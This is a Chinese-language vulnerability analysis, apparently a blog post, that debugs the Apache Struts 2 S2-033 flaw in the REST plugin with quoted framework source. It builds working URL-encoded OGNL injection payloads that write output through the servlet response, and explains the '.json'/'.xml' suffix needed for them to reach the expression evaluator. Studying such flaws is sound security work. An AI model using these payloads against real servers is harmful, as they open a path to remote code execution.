



> 本次使用的环境为`IDEA+struts-2.3.28+tomcat8`，测试的漏洞为s2-033漏洞

##漏洞发生点

首先按照官方所说，漏洞发生点为`RestActionMapper`类下的`getMapping`函数，我们就在此函数下获取用户输入开始打断点，然后逐步调试：

Path:
**/home/lang/.m2/repository/org/apache/struts/struts2-rest-plugin/2.3.28/struts2-rest-plugin-2.3.28.jar!/org/apache/struts2/rest/RestActionMapper.class**

```java
public ActionMapping getMapping(HttpServletRequest request,
            ConfigurationManager configManager) {
        ActionMapping mapping = new ActionMapping();
        String uri = RequestUtils.getUri(request);

        uri = dropExtension(uri, mapping);
        if (uri == null) {
            return null;
        }

        parseNameAndNamespace(uri, mapping, configManager);
```
在`String uri = RequestUtils.getUri(request);`处打断点，因为`RequestUtils.getUri()`的作用就是获取`request`对象的**uri**，我们正
常访问，追踪数据流程看看。一开始什么都没看出来，然后逐一进入函数追踪查看，发现了问题。

我正常访问的URL是:**http://localhost:8080/orders/5**，那么开始获取到的uri是`orders/5`，追踪数据进入到`handleDynamicMethodInvocation`
中时，发现了奇怪的地方：

可以看到，`mapping.setName(actionName);`中没有传入数据，而是直接进入到`else`判断里，我们看一下判断条件也就是`allowDynamicMethodCalls`
的状态：

```java
    private boolean allowDynamicMethodCalls = false;
```
为什么注意这儿？因为这儿的`mapping.setMethod(actionMethod);`就是s2-032的问题所在，这儿的`actionMethod`我们是可控的，而`setMethod`后
的值将会被带入到`ognl`表达式中，形成表达式注入而产生命令执行

此处参考

. [Ognl 漏洞浅析和解决方案](http://blog.csdn.net/xlxxcc/article/details/52244965)

Path:**/home/lang/.m2/repository/org/apache/struts/xwork/xwork-core/2.3.28/xwork-core-2.3.28-sources.jar!/com/opensymphony/xwork2/DefaultActionInvocation.java**

```java
    protected String invokeAction(Object action, ActionConfig actionConfig) throws Exception {
        String methodName = proxy.getMethod();

        if (LOG.isDebugEnabled()) {
            LOG.debug("Executing action method = #0", methodName);
        }

        String timerKey = "invokeAction: " + proxy.getActionName();
        try {
            UtilTimerStack.push(timerKey);

            Object methodResult;
            try {
                methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);
            }
```
但是问题是这一切发生的先决条件就是开启动态方法调用，但是默认是`False`

## 三次断点
在`methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);`处再下一个断点，访问`!{{1+1}}`，看看流程
最后进入到表达式执行的`methodName`的值是`show`，因此只是单纯的展示，而`!{{1+1}}`则在`handleDynamicMethodInvocation()`中就被抛弃了

那如果是这样的话，我们该如何能让函数保留下来并且执行呢？我们回头去寻找抛弃的点：


可以看到，在这儿虽然`actionMethod`还是`{{1+1}}`但是`mapping`中的`method`已经变成了`null`，至此出去后`mapping`中就不再含有`{{1+1}}`
既然不能控制`method`，那就得想办法在`name`上做手脚，因为是REST模式，个人使用两个方法：
* orders/5/{{1+1}}
* oders/5{{1+1}}

分别尝试后追踪数据。
## Debug
先看第二种方式，追了之后发现了一个问题，虽然输入的数据能被一直保留，但是却会在中途当作是`id`的值封装入一个`request`对象里，那造成的结果就是因为没有这个`id`所以虽然查不出东西但是能正常输出页面，因为最后调用的`action`还是`show`

第一种方式倒是出乎了我的意料，因为当我访问了**http://localhost:8080/orders/5/{{4+1}}**,页面赫然是`500`报错，并且显示的正是`OGNL表达式`错误

输出的是`{{4+1}}()`，正好符合：
```java
methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);
```
这说明了我们输入的`{{4+1}}`最终成功进入到了`ognlUtil.getValue()`之中，并且根据源码可以看到，会给输入的语句在最后添加一个`()`，那么现在就是跟觉OGNL表达式构造一个页面输出的POC来

## 构造
```OGNL
%23a%3d%23context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),%23a.print(123%2b123),%23a.close
```
结果发现其中的双引号被实体化了，导致报错，这就很尴尬，那就拼接
```OGNL
%23a%3d%23context[%23parameters.o[0]].getWriter(),%23a.print(123%2b123),%23a.close&o=com.opensymphony.xwork2.dispatcher.HttpServletResponse
```
原本以为能成功，结果显示的是`404`，一时之间懵住，去查证已经爆出的POC，发现有个`xx.toString.json?`，我尝试拼接一下
```OGNL
%23a%3d%23context[%23parameters.o[0]].getWriter(),%23a.print(123%2b123),%23a.close(),xx.toString.json?&o=com.opensymphony.xwork2.dispatcher.HttpServletResponse
```
页面成功回显`246`

## 什么是`xx.toString.json?`

用上面的再去调试，忽然发现自己忘了东西了，因为提交的请求最早进入的函数是`dropExtension()`，而这个函数的作用便是按照提交请求的最后一个`.`的后缀来确定是否为合法请求，或者说是可解析请求
```java
    protected String dropExtension(String name, ActionMapping mapping) {
        if (extensions == null) {
            return name;
        }
        for (String ext : extensions) {
            if ("".equals(ext)) {
                // This should also handle cases such as /foo/bar-1.0/description. It is tricky to
                // distinquish /foo/bar-1.0 but perhaps adding a numeric check in the future could
                // work
                int index = name.lastIndexOf('.');
                if (index == -1 || name.indexOf('/', index) >= 0) {
                    return name;
                }
            } else {
                String extension = "." + ext;
                if (name.endsWith(extension)) {
                    name = name.substring(0, name.length() - extension.length());
                    mapping.setExtension(ext);
                    return name;
                }
            }
        }
        return null;
    }
```
跟进下，其中验证的为`xhtml`，`json`，`xml`,`""`，若不在四种之内，返回`null`，程序结束，因此才会是`json`，实际上`xml`，`xhtml`也都可以

然后我就发现我错了，因为遗漏了后缀的问题，才会导致上面这段的不理解，实际上，最后给出来的`payload`：
```OGNL
%23a%3d%23context[%23parameters.o[0]].getWriter(),%23a.print(123%2b523),%23a.close.xml?&o=com.opensymphony.xwork2.dispatcher.HttpServletResponse
```
就这样就好了